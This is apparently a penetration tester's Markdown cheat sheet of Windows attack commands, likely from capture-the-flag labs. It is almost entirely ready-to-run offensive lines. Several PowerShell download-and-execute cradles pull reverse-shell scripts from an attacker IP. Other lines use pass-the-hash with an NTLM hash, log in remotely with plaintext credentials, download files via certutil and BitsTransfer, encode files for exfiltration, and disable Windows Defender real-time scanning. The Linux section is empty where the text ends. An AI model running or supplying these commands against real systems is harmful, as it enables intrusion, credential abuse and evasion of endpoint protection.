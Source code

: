 ```
Invoke-Command -Computer re -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.73/rev1.txt') }

#powershell suite runas 
  paste following at the bottom of the script(see bart video @ 55:36):
  Invoke-runAs -User administrator -Password 3130438f31186fbaf962f407711faddb -LogonType 0x1 -Binary c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -Args "IEX(new-Object Net.webclient).downloadString('http://10.10.14.73/rev1.txt')"
```

# Usefull commands
## Windows
### SHELLS
```
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
psexec.py  'user:pass@localhost' cmd 
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'
```
### PTH
```
pth-winexe -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //10.11.1.49 cmd.exe

```
### DOWNLOAD SHELL POWERSHELL
```
cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/rev1.ps1')  (may need to escape quotes)
AVOID BAD CHARACTERS --> convert to windows file format
iconv -t UTF-16LE | base64-w0 
powershell 64 bit is stored in C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe
start-process -Filepath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.73/adm.txt')" -credential $cred
```

### DOWNLOAD FILE CMD/PS
```
certutil -urlcache -split -f http://10.10.14.12/priv.exe C:\\users\\public\\agent.exe #CMD
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.73/winPEAS.bat', 'C:\Users\fsmith\1.bat') # PS
Start-BitsTransfer -Source http://10.10.14.12/priv.exe -Destination 1.exe # PS
$client = New-Object System.Net.WebClient  # two steps is better
$client.DownloadFile('http://10.10.14.12/priv.exe', '1.exe')
xcopy \\10.10.14.7\files\taskkill.exe  # from smb file server created with impacket
wget -o enum.bat http://10.10.14.73/enum.bat

# EXFIL FILES CMD/PS
certutil -encode PATH DESTINATION
```
#### enumerate folders  in powershell
```gci -recurse . | select fullname```

#### Disable defender real time scan
```Set-MpPreference -DisableRealtimeMonitoring $true```


## Linux

```
